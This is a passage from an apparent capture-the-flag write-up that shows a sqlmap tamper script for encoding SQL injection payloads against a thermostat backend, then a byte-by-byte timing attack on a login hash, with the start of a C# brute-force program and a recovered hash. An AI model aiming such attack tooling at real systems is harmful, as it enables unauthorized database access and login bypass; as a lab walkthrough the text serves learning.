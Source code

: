 with `tamper.py` being the following python script

```python
#!/usr/bin/env python
import subprocess
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    result = subprocess.check_output(["sh", "/full/path/to/tamper.sh", payload])
    return result
```

which in turn called this bash script

```bash
cd ~/full/path/top/javaapp
java -cp org.json.jar:. RequestBuilder build "$1" "123" "getTemp" 2>NUL
exit 0
```

It could have been done directly in python however I'm more familiar with bash. The result of this was that I could obtain the entire `devices` table. Most of the IPs were dead or internal and unreachable to me, however 104.196.12.98 was alive and accessible.

> BLOG NOTES!  
> I hesitated before resorting to `sqlmap`. You know, the dreaded *skid* tag is looming everytime you use that. Since the ending date of the CTF was unknown, I decided to swallow my pride and go with the quick solution. Some good came out of this though and there is a new feature in `sqlmap` now! See this [feature request](https://github.com/sqlmapproject/sqlmap/issues/3505) I opened after completing this step. Props to the `sqlmap` maintainer who implement this super quickly.

### H1Thermostat (Flitebackend) login

The login page on 104.196.12.98 hashes the credentials then sends them to the server in a POST request in the `hash` parameter. I noticed that if I sent invalid input (a shorter string for example) the response was immediate, while an invalid user/pass but with a real hash took 500 ms quite reliably. This suggested that the hash was validated byte by byte and a timing attack was possible. After some trial and error it appeared that the timing was `500 * i` where `i` is the 1-based position of the byte. I wrote the following C# application and was able to recover a valid hash: `f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13d8`

```csharp
using System;
using System.Collections.Concurrent;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Net;
using System.Net.Http;
using System.Threading.Tasks;

namespace HashTimingAttack
{
    class Program
    {
        const string Url = "http://104.196.12.98/";
        const string HashParamName = "hash";
        const int HashBytes = 32;
        private static readonly string[] PossibleValues = Enumerable.Range(0, 256).Select(x => ((byte)x).ToString("x").PadLeft(2, '0')).ToArray();

        static void Main(string[] args)
```